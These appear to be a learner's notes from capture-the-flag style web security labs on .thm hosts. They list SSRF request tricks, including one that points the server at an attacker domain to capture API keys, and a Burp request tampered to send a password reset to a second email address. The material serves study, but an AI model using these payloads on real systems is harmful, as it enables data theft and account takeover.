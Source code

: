 password hashes

## SSRF

- Expected req: `http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123`

  Hacker req: `http://website.thm/stock?url=http://api.website.thm/api/user`

  Web req: `http://api.website.thm/api/user`

- Expected req: `http://website.thm/stock?url=/item?id=123`

  Hacker req: `http://website.thm/stock?url=/../user`

  Web req: `http://api.website.thm/api/stock/../user`

- Expected req: `http://website.thm/stock?server=api&id=123`

  Hacker req: `http://website.thm/stock?server=api.website.thm/api/user&x=&id=123`

  Web req: `http://api.website.thm/api/user?x=.website.thm/api/stock/item?id=123`

- Expected req: `http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123`

  Hacker req: `http://website.thm/stock?url=http://hackerdomain.thm/`

  Get data like API keys

- Inspect radio buttons and change value to `x/../private` and submit, then inspect again, the value shows the content of /private 

## CSRF

- Burp Suite

  ```
  POST /customers/reset?email=robert%40acmeitsupport.thm HTTP/1.1
  Host: 10.10.165.153
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 15
  Origin: http://10.10.165.153
  Connection: close
  Referer: http://10.10.165.153/customers/reset?email=robert%40acmeitsupport.thm
  Cookie: admin=false
  Upgrade-Insecure-Requests: 1
  
  username=robert
  ```

  Change `username=robert` to 

  `username=robert&email=steve%40customer.acmeitsupport.thm`

- Curl
